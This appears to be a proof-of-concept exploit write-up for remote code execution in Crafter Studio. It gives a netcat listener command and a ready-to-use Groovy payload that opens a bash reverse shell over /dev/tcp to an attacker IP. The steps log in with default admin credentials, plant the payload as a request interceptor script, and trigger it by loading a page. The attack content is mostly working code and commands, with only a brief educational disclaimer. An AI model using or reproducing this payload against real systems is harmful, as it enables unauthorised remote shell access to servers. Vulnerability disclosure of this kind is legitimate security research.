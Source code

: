 ## RCE Exploit: Reverse Shell

This payload demonstrates full RCE by establishing a reverse shell back to an attacker-controlled machine.

#### 1. Start a Listener
On your machine, start a listener (e.g., using `netcat`) to receive the incoming connection:
```bash
nc -lvnp 4444
```

#### 2. Prepare the Payload
Use the following Groovy script as your payload. **Remember to replace `<YOUR_IP>` and `<YOUR_PORT>`** with your listener's IP address and port.

```groovy
// File: /scripts/interceptors/exploit.groovy

def attacker_ip = "<YOUR_IP>"
def attacker_port = "4444" // Or <YOUR_PORT>

def cmd = "bash -i >& /dev/tcp/" + attacker_ip + "/" + attacker_port + " 0>&1"
def shell = new GroovyShell()

// Use triple quotes to handle the command string easily
shell.evaluate("""
    new ProcessBuilder("/bin/bash", "-c", "${cmd}").start()
""")

System.err.println("Reverse shell payload executed.")
```


## Steps to Reproduce

1.  Log in to Crafter Studio (`http://localhost:8080/studio`) with the default credentials (`admin` / `admin`).
2.  Navigate to **Site Config** -> **Scripts**.
3.  Click **Create/Edit Script** under the "Groovy Scripts" section.
<img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/d9dcd095-5411-4f36-b061-1efe1cb59201" />

4.  Choose a script type that will be executed, such as **Request Interceptor**.
5.  Paste the PoC payload into the script editor and save it.
<img width="1840" height="732" alt="image" src="https://github.com/user-attachments/assets/56802538-4e0b-44a2-8c7c-de93087f6ed6" />

6.  Trigger the script by visiting any page on the website (e.g., `http://localhost:8080`).
7.  Check the server's standard error logs to see the command output.
    - For the **PoC**, find your container ID and check its logs for the command output:
    ```bash
    docker-compose logs -f crafter
    ```
    **Expected Output:**
    ```
    GroovyShell: uid=1000(crafter) gid=1000(crafter) groups=1000(crafter)
    ```
    - For the **Reverse Shell**, check your `netcat` listener. You should receive a shell session from the container.


## Disclaimer

This material is for educational and research purposes only. The author is not responsible for any misuse or damage caused by this information.
